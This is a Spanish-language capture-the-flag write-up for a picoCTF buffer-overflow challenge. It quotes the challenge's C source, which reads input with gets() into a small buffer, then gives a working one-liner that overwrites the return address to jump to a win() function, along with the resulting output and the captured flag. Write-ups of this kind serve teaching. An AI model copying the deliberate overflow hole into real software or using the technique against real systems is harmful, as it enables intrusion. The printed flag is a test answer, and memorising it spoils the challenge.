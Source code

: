 ## Objetivo
Control the return addressNow we're cooking! You can overflow the buffer and return to the flag function in the [program](https://artifacts.picoctf.net/c/185/vuln).You can view source [here](https://artifacts.picoctf.net/c/185/vuln.c). And connect with it using `nc saturn.picoctf.net 63955`
## Solución
Nos dan este código en el cual tenemos que ingresar un string. Y nos damos cuenta que la función win nos da la bandera.
```c++
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}

```
Como no podemos llegar a funcion win, escribimos y escribimos letras A hasta que se pase el buffer y en lugar de que se pase a main otra vez se pase a la funcion win que nos da la bandera.

```bash
┌──(kali㉿kali)-[~/picoCTF/binexp2]
└─$ (python3 -c "import sys;sys.stdout.buffer.write(b'A'*44+b'\xf6\x91\x04\x08')";echo) | nc saturn.picoctf.net 51847
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_6462ca2d} 
```
## Notas Adicionales

## Referencias